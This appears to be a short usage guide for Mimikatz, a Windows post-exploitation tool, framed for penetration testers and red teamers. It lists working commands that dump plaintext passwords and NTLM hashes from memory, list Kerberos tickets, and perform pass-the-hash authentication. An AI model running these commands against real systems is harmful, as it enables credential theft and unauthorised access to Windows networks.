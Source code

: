 Mimikatz is a powerful post-exploitation tool that allows attackers to extract passwords, Kerberos tickets, and other authentication credentials from Windows systems. 
It is widely used for credential dumping, pass-the-hash attacks, and Kerberos ticket manipulation. The tool is used by security professionals, 
penetration testers, and red teamers to assess security weaknesses in Windows environments.

Usage
Running Mimikatz 
./mimikatz.exe
Once you've compiled or downloaded Mimikatz, you can execute the tool and start using its commands. Below are some example commands to use Mimikatz for common tasks:

1. Extracting Plaintext Passwords and NTLM Hashes
To extract passwords and hashes stored in memory, use the following command:
sekurlsa::logonpasswords

2.Extracting Kerberos Tickets
To view Kerberos tickets (TGTs and TGSs) from memory:
kerberos::tickets

3.Pass-the-Hash Authentication
sekurlsa::pth /user:<username> /domain:<domain> /hash:<NTLM_hash>
